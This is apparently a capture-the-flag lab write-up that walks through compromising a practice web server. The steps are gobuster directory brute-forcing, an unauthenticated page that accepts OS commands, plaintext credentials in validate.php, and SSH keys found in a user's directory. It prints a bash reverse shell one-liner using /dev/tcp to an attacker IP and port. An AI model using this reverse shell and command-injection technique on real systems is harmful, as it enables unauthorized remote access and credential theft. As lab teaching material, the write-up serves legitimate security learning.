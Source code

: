 ## Description

![image](https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png)

## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !
<p align="center">
![image](https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png)
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
![image](https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png)
<p/>

Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

"home.php" 

<p align="center">
![image](https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png)
</p>

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look like incorrect credentials goes here

<p align="center">
 
![image](https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png)

 </p>
 
Moving on , we can check if the machine is linux by using  "uname -a" command

![image](https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png)

and yess , now slap reverse shell command into the input <br/>
![image](https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png)

```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```
<br/>
remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as "www-data" !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png)

<br/>
now we search for the key , key_rey_key seems sus and by trying strings command we found the key
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png)

<br/>
and we are lucky to found the user credentials in plain text inside the "validate.php" code
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png)

switch user to charlie and we got the flag , oh yeah.. you cant switch user here..
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png)

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png)






